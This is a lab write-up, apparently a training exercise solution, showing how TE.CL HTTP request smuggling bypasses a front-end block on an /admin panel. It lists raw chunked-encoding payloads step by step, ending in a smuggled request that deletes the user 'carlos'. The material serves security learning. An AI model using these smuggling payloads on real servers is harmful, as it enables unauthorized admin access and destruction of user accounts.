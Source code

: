 # Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

## This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.

## To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`.

### step1

```
Transfer-Encoding: chunked

5a
GET / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

you will get response 200 ok

### step2

```
Transfer-Encoding: chunked

67
GET /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![screenshot](./images/images_lab7/lab7_blog_post_id_5.png)

### step3

```
Transfer-Encoding: chunked

5f
GET /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![screenshot](./images/images_lab7/lab7_try_to_access_admin_interface.png)

### step5

```
Content-Length: 4
Transfer-Encoding: chunked

70
GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

![screenshot](./images/images_lab7/lab7_admin-panel.png)

### step6

```
Content-Length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

![screenshot](./images/images_lab7/lab7_delete_carlos_account.png)

![screenshot](./images/images_lab7/lab7_lab_solved.png)

